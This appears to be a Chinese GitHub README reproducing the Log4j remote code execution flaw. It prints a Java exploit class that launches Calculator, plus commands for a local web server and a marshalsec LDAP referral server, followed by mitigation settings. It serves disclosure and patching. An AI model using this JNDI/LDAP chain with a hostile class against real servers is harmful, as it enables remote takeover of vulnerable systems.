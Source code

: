 # Apache-Log4j
[Apache Log4j 远程代码执行](https://github.com/askDing/apache-log4j-poc)

> 攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响

![image](https://user-images.githubusercontent.com/45926593/145425339-47c71230-87d2-4519-8919-9c3520850f83.png)

## 复线步骤
### 编译exp-修改Log4jRCE.java
``` java
public class Log4jRCE {
    static{
        try{
            String[] cmd={"open","/System/Applications/Calculator.app"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
### python起个本地简易web服务
在target/classes目录下执行 `python3 -m http.server 8888`
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210134009.png)

### 在本地起一个ldap服务
`java  -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"`
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210141034.png)

### 运行log4j.java程序
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210134659.png)

## 临时修复方案：

（1）修改jvm参数
-Dlog4j2.formatMsgNoLookups=true

（2）修改配置
在应用classpath下添加log4j2.component.properties配置文件，log4j2.formatMsgNoLookups=true


①在jvm启动参数中添加

`-Dlog4j2.formatMsgNoLookups=true`

![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210151940.png)


②系统环境变量中配置

`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS=true`
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210152021.png)


③项⽬中创建log4j2.component.properties⽂件，⽂件中增加配置`log4j2.formatMsgNoLookups=true`
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210152139.png)

- 限制受影响应用对外访问互联网
- WAF添加漏洞攻击代码临时拦截规则。
